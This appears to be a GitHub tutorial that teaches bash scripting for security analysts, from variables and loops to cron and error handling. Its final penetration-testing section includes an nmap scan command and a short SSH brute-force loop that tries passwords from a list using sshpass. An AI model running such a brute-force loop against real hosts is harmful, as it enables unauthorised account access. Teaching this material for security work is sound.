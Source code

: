
# Advanced Shell Scripting for Cyber Security Analysts

Shell scripting is a vital tool for automating, securing, and managing systems. Below is a comprehensive guide from basic to advanced shell scripting concepts, covering key topics for cyber security analysts.

---

## **1. Basic Shell Scripting Concepts**

### **1.1 Shell Types**
There are several types of shells, but the most commonly used are:
- **Bourne Shell (sh)**: Basic shell.
- **Bash Shell (bash)**: Popular in Linux environments.
- **Z Shell (zsh)**: Similar to bash but with additional features.

```bash
#!/bin/bash
echo "Running shell: $SHELL"
```

### **1.2 Variables in Shell**
Variables store data values that can be reused.

```bash
#!/bin/bash
username="admin"
echo "Logged in as $username"
```

### **1.3 Input/Output Redirection**
Direct input and output of commands using redirection.

```bash
#!/bin/bash
# Output to a file
echo "Log this message" > logfile.txt
```

### **1.4 Pipes and Filters**
Pipes (`|`) are used to send the output of one command as input to another.

```bash
#!/bin/bash
# Pipe output from one command to another
cat file.txt | grep "error" | sort
```

---

## **2. Intermediate Shell Scripting**

### **2.1 Conditional Statements**

```bash
#!/bin/bash
# If-else condition
if [ -f "/etc/passwd" ]; then
    echo "File exists"
else
    echo "File does not exist"
fi
```

### **2.2 Loops**

#### **For loop**:
```bash
#!/bin/bash
for i in {1..5}; do
    echo "Iteration $i"
done
```

#### **While loop**:
```bash
#!/bin/bash
count=1
while [ $count -le 5 ]; do
    echo "Count: $count"
    count=$((count+1))
done
```

### **2.3 Functions**

```bash
#!/bin/bash
# Defining a function
greet() {
    echo "Hello, $1"
}
greet "Cyber Analyst"
```

---

## **3. Advanced Shell Scripting**

### **3.1 Process Management**
```bash
#!/bin/bash
# Start a background process
sleep 100 &
jobs
```

### **3.2 Signal Handling**
Handle interrupts like `SIGINT` (Ctrl+C).

```bash
#!/bin/bash
trap "echo 'Interrupt signal received'" SIGINT
while true; do
    echo "Press Ctrl+C to stop"
    sleep 1
done
```

### **3.3 File Manipulation**

```bash
#!/bin/bash
# Compressing files
tar -czf backup.tar.gz /path/to/directory
```

### **3.4 Regular Expressions with `sed` and `awk`**
```bash
# Using sed for replacing text
sed 's/oldtext/newtext/g' file.txt

# Using awk for text processing
awk '{print $1}' file.txt
```

---

## **4. Expert Shell Scripting Techniques**

### **4.1 Error Handling and Debugging**

```bash
#!/bin/bash
# Error handling
cp file1.txt file2.txt
if [ $? -eq 0 ]; then
    echo "Copy successful"
else
    echo "Copy failed"
fi

# Debugging mode
set -x
echo "This is a debugging example"
```

### **4.2 Scheduling Tasks with `cron`**

```bash
# Open crontab editor
crontab -e
# Add cron job to run daily at 3AM
0 3 * * * /path/to/script.sh
```

### **4.3 Security Scripting**

```bash
#!/bin/bash
# Generate a random password
openssl rand -base64 12
```

---

## **5. Best Practices in Shell Scripting**

### **5.1 Script Documentation**
```bash
#!/bin/bash
# Script purpose: This script performs X and Y
```

### **5.2 Error Logging**
```bash
#!/bin/bash
# Redirect errors to a log file
command 2> error.log
```

### **5.3 Security Considerations**
- Validate user inputs.
- Use full command paths (e.g., `/usr/bin/ls`).
- Limit script permissions for better security.

---

## **6. Shell Scripting in Penetration Testing**

### **6.1 Nmap Automation**
```bash
#!/bin/bash
# Automate Nmap scan
nmap -A 192.168.1.1 -oN scan_results.txt
```

### **6.2 Brute-Force Password Attempts**
```bash
#!/bin/bash
# Brute-force SSH login (for educational purposes only)
while read password; do
    if sshpass -p $password ssh user@target "exit"; then
        echo "Password found: $password"
        break
    fi
done < passwords.txt
```

---

Mastering shell scripting for cyber security not only enables task automation but also enhances incident handling, penetration testing, system hardening, and proactive security monitoring.
